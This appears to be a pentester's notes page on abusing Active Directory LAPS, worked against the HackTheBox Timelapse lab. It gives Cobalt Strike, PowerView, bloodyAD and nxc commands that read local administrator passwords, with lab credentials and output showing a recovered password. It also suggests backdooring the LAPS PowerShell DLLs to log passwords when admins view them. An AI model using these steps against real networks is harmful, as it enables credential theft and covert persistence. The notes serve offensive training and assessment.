





## Entry

LAPS (Local Administrator Password Solution) falls under the category of credential management and privilege escalation prevention in Active Directory environments. In the context of pentesting or red teaming, it is most relevant to:

> So it will only work for when u can try to go Local Administrator. now child domains etc.
{: .prompt-tip}

## Enumerate with Cobalt Strike and Abuse

There is tons way to make sure



Lets see if we have AdmPwd.dll at;

Command to execute:
```sh
ls C:\Program Files\LAPS\CSE
```


Check for, Computer Object having `ms-Mcs-AdmPwdExpirationTime` attribute is set to Not Null.

Commands to execute;
```sh
powershell-import /home/elliot/tools/PowerView.ps1
powerpick Get-DomainComputer | ? { $_."ms-Mcs-AdmPwdExpirationTime" -ne $null } | select dnsHostName
```


Now lets get Admin Password
Command to execute
```sh
powerpick Get-DomainComputer -Identity dc01.timelapse.htb -Properties ms-Mcs-AdmPwd
```
> `dc01.timelapse.htb` should be same what we found from dnsHostName
{: .prompt-tip}



now we can make token for Administrator and get access.



### ➜  LAPS Backdoor

> - Modify the AdmPwd.PS.dll and AdmPwd.Utils.dll file located at C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\ location to log the LAPS password everytime it is viewed by the admin user (Chevk Notes)
{: .prompt-tip}

## Enumerate with Linux and Abuse

### with bloodyAD
```sh
bloodyAD --host 10.10.11.152 -d timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```
it will give
```sh
distinguishedName: CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
ms-Mcs-AdmPwd: 2#dU97o8@4@2a/(M%nkF6vM6
ms-Mcs-AdmPwdExpirationTime: 133917410497460268
```

### with nxc
```sh
nxc ldap 10.10.11.152 -d timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -M laps
```
and it will give this shit
```sh
SMB         10.10.11.152    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.152    389    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV 
LAPS        10.10.11.152    389    DC01             [*] Getting LAPS Passwords
LAPS        10.10.11.152    389    DC01             Computer:DC01$ User:                Password:2#dU97o8@4@2a/(M%nkF6vM6
```

